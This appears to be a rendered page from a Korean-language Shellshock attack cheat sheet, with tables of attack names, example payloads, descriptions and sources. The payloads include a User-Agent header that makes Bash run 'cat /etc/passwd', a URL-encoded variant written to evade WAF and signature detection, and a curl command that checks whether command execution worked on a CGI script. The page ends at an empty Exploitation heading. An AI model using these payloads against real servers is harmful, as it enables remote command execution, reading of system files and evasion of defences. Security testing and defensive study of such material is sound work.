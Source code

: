 ### Injection

<table>
  <thead>
    <tr><th>공격 이름</th><th>예시 페이로드</th><th>설명</th><th>출처</th></tr>
  </thead>
  <tbody>
    <tr>
      <td>HTTP Header Shellshock Injection</td>
      <td><pre><code>User-Agent: () { :; }; echo; /bin/bash -c 'cat /etc/passwd'</code></pre></td>
      <td>HTTP 헤더(User‑Agent, Cookie 등)에 Shellshock 페이로드를 삽입하여 애플리케이션 레이어 필터를 우회하고 Bash 레이어에서 임의 명령 실행을 유도한다.</td>
      <td>[1]</td>
    </tr>
  </tbody>
</table>

### Obfuscation

<table>
  <thead>
    <tr><th>공격 이름</th><th>예시 페이로드</th><th>설명</th><th>출처</th></tr>
  </thead>
  <tbody>
    <tr>
      <td>Payload Encoding Obfuscation</td>
      <td><pre><code>User-Agent: %28%29%20%7B%3A%3B%7D%3B%20/bin/bash%20-c%20'id'</code></pre></td>
      <td>URL 인코딩·Base64 인코딩·환경 변수 이름 분할·기타 헤더 필드를 활용하여 WAF 및 서명 기반 탐지를 회피한다.</td>
      <td>[1]</td>
    </tr>
  </tbody>
</table>

### Validation

<table>
  <thead>
    <tr><th>공격 이름</th><th>예시 페이로드</th><th>설명</th><th>출처</th></tr>
  </thead>
  <tbody>
    <tr>
      <td>Execution Success Verification</td>
      <td><pre><code>curl -i http://target.example.com/cgi-bin/vuln.sh \  
-H "User-Agent: () { :; }; echo; /bin/bash -c 'id'"</code></pre></td>
      <td>curl 또는 nc를 이용해 HTTP 응답 헤더·본문·상태 코드를 분석하여 명령이 정상 실행되었는지(200 vs 500 등) 검증한다.</td>
      <td>[1]</td>
    </tr>
  </tbody>
</table>

### Exploitation
